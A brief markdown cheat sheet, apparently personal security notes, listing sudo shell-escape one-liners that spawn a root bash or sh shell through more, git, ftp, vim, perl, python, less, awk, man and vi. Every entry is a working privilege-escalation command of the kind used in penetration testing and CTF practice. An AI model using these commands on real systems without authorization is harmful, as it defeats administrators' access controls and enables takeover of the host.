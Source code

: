 - more
    ```bash
    sudo more /etc/hosts
    !/bin/bash
    ```

- git
    ```bash
    sudo git help status
    !/bin/bash
    ```

- ftp
    ```bash
    sudo ftp
    ftp> !/bin/bash
    ```

- vim
    ```bash
    sudo vim -c '!bash'
    ```

- perl:
    ```bash
    sudo perl -e 'exec "/bin/bash";'
    ```

- python:
    ```bash
    sudo python -c 'import pty;pty.spawn("/bin/bash")'
    ```

- less
    ```bash
    sudo less /etc/hosts
    v
    :shell
    ```

- awk
    ```bash
    sudo awk 'BEGIN {system("/bin/bash")}'
    ```

- man
    ```bash
    sudo man man
    !/bin/bash
    ```

- vi
    ```bash
    sudo vi

    :!bash
    或
    :!/bin/sh
    或
    :set shell=/bin/sh
    :shell
    ```
